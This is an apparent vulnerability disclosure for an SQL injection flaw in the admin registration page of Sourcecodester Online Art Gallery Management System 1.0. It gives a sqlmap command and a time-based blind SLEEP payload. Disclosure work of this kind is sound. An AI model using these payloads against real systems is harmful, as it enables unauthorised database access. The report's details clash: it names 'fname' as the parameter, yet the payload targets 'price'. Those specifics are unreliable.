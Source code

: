 # SQL Injection vulnerability was discovered in Sourcecodester Online Art Gallary Management System 1.0 (admin registration)

Affected Project: Sourcecodester Online Art Gallary Management System 1.0

Official Website: https://www.sourcecodester.com/php/14211/online-art-gallery-management-system-project-using-phpmysql.html

Version: 1.0

Related Code file: /Admin/registration.php

Injection parameter: fname


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The price and name fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the /Admin/ By clicking on **Registration**, we can register for admin account.

`http://192.168.12.147/Admin/registration.php`

![image](https://github.com/gurudattch/CVEs/blob/main/assets/0.png)

--- 

We will first intercept the add-item traffic using Burp Suite
![image1](https://github.com/gurudattch/CVEs/blob/main/assets/1.png)

 ---
 
Save the intercepted Registration request to a .txt file and execute sqlmap towards it. 

![image1](https://github.com/gurudattch/CVEs/blob/main/assets/2.png)


---

parameter fname is vulnerable to sql injection

Below commands verifies the vulnerability:

`$ sqlmap -r sqli_test.txt -p fname`

---

![image3](https://github.com/gurudattch/CVEs/blob/main/assets/3.png)

---

```
---
Parameter: fname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
